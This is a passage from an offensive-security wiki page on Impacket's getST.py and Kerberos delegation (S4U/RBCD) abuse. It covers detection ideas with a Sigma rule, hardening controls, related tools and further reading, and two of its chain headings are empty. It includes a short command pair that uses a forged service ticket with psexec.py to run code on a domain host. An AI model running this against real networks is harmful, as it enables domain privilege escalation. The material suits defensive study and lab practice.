**4769 events with populated `TransitedServices`.** The simplest and highest fidelity rule. Any 4769 with a non empty `TransitedServices` field is a delegation operation. Filter against the allowlist of accounts known to legitimately perform delegation. Alert on anything else.

**Sequential 4769 pairs from the same source.** S4U2Self followed immediately by S4U2Proxy is the attack signature. A SIEM rule that correlates 4769 events with a short time window and matches the pattern catches the attack chain explicitly.

**Anomalous impersonation.** Track which accounts impersonate which other accounts. A delegation account that has never impersonated `Administrator` before suddenly doing so is anomalous. Behavioral analytics platforms can baseline this automatically.

**RBCD attribute changes.** Modifications to `msDS-AllowedToActOnBehalfOfOtherIdentity` produce Event ID 5136 (Directory Service Object Modification) on domain controllers when "Audit Directory Service Changes" is enabled. Alert on every modification to this attribute, period. There is no legitimate reason for the attribute to change frequently.

**Computer account creation by non infrastructure accounts.** The RBCD attack chain depends on creating a new computer account. Event ID 4741 (Computer Account Created) from a non administrative source is a strong precursor signal. Many environments do not have legitimate computer creation activity from end user accounts; detect and alert on it.

A starter Sigma rule for the S4U2Proxy pattern:

```yaml
title: Possible S4U2Proxy Delegation Abuse
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4769
    TransitedServices|exists: true
    TransitedServices|contains: '@'
  filter_known_delegators:
    SubjectUserName:
      - 'svc_known_legitimate_app'
  condition: selection and not filter_known_delegators
level: high
```

### Preventive controls

Delegation hardening was covered in [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md). Recapping the most impactful controls specific to S4U exploitation:

- **`MachineAccountQuota = 0`.** Blocks the standard RBCD attack chain at the computer account creation step. Microsoft's recommended baseline since 2020.
- **`Account is sensitive and cannot be delegated`** (`NOT_DELEGATED` UAC flag, `0x100000`) on every privileged account. Prevents S4U2Self from producing tickets impersonating those accounts.
- **`Protected Users` group membership** for every privileged user. Adds additional hardening including blocking RC4 and various delegation behaviors. Remember the RID 500 exception: the built in Administrator account is not protected by Protected Users membership for S4U2Self purposes. Use named admin accounts.
- **Audit and remove unnecessary delegation configurations.** Use [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md) regularly. Most production domains have at least one delegation that nobody can justify.
- **Disable LLMNR, NBNS, and IPv6 SLAAC.** Cuts the prerequisite for the NTLM relay step that feeds the RBCD chain.
- **Enable LDAP signing and channel binding.** Makes the relay step harder.
- **Microsoft Defender for Identity.** MDI specifically detects S4U based attacks and several variants. If deployed, it is the most actionable signal source for this category of attack.


## Related tools and attack chains

`getST.py` is the exploitation tool that pairs with [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md) for discovery.

### Tools that produce input for `getST.py`

- **[`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md)** identifies the delegation configurations that `getST.py` exploits.
- **[`secretsdump.py`](../03_credential_access/secretsdump.md)** extracts the credentials of compromised computer accounts that are configured for delegation.
- **[`addcomputer.py`](../07_ad_modification/addcomputer.md)** creates the new computer account for the RBCD chain.
- **[`rbcd.py`](../07_ad_modification/rbcd.md)** writes the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute that grants the new account delegation rights.
- **[`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md)** with `--delegate-access` automates the entire RBCD chain in one command.

### Tools that consume `getST.py` output

Every Impacket tool with a `-k` flag. The forged Service Ticket is a complete authentication credential. After running `getST.py`, the typical follow up is:

```bash
export KRB5CCNAME=<impersonated_user>@<spn>@<REALM>.ccache
psexec.py -k -no-pass CORP.LOCAL/<impersonated_user>@target.corp.local
```

Or any of the other Impacket execution and credential tools documented elsewhere in this wiki.

### Conversion tools

- **[`ticketConverter.py`](ticketConverter.md)** converts the resulting ccache to `.kirbi` format for use with mimikatz or Rubeus on a Windows attacker host.

### A canonical RBCD attack chain



### A canonical Constrained Delegation chain




## Further reading

- **`[MS-SFU]`: Service for User and Constrained Delegation Protocol Specification.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/`. The authoritative specification for S4U2Self and S4U2Proxy. Sections 3.2.5.1 and 3.2.5.2 cover the operations directly.
- **Alberto Solino "Kerberos Delegation, SPNs and More..."** at the SecureAuth blog (now archived). The original public writeup of the SPN substitution trick that `-altservice` automates.
- **Will Schroeder "S4U2Pwnage"** at `https://blog.harmj0y.net/`. The original popular explanation of the S4U abuse pattern.
- **Elad Shamir "Wagging the Dog"** at `https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html`. The single most important paper on RBCD exploitation. Explains in detail why the forwardable flag matters, why MachineAccountQuota matters, and why the attack chain works.
- **James Forshaw "Exploiting RBCD Using a Normal User"** at `https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html`. The original writeup of the U2U technique that `-u2u` implements.
- **Charlie Clark "S4U2Self in a Single Bound"** at the Semperis blog. Discusses the Sapphire ticket variant that uses S4U2Self for PAC sourcing.
- **`@ShutdownRepo` PR #1202 to fortra/impacket** at `https://github.com/fortra/impacket/pull/1202`. The pull request that added `-self`, `-altservice`, and `-u2u` to `getST.py`. Reading the discussion is a useful supplement to the article.
- **Akamai dMSA research** at the Akamai security research blog. Current analysis of dMSA exploitation.
- **Semperis dMSA writeups.** Defender oriented analysis of the dMSA attack surface.
- **MITRE ATT&CK T1558.003 Kerberoasting** and related techniques at `https://attack.mitre.org/techniques/T1558/`.
- **Microsoft "Configuring Delegation"** documentation at `https://learn.microsoft.com/en-us/windows-server/identity/`.
- **Microsoft "Protected Users Security Group"** at `https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group`. Critical reading for understanding what Protected Users does and does not protect against.
- **Sensepost "Chaining Multiple Techniques and Tools for Domain Takeover Using RBCD"** at `https://sensepost.com/blog/2020/`. Practical engagement perspective on the RBCD chain.
- **The Hacker Recipes "Delegations" section** at `https://www.thehacker.recipes/ad/movement/kerberos/delegations/`. The most current practical reference covering all four delegation types and their exploitation paths.

If you want to internalize this material, build a lab with all four delegation types configured, run [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md) to confirm what you set up, then exploit each one with `getST.py`. The third or fourth time through the workflow, the pieces click together and Kerberos delegation stops being a confusing pile of acronyms and becomes a clear, exploitable attack surface that you can reason about confidently.
